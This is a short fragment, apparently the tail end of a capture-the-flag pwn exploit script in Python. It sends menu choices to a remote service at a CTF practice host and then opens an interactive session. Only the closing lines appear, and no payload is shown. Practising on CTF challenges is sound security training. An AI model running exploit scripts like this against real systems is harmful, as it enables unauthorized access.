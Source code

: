 ```python
        r.sendline('3')
        r.recvuntil('Index: ')
        r.sendline('%d' % 2)
        break

if __name__ == '__main__':
    host = 'node3.buuoj.cn'
    exploit(host)
    r.interactive()
```

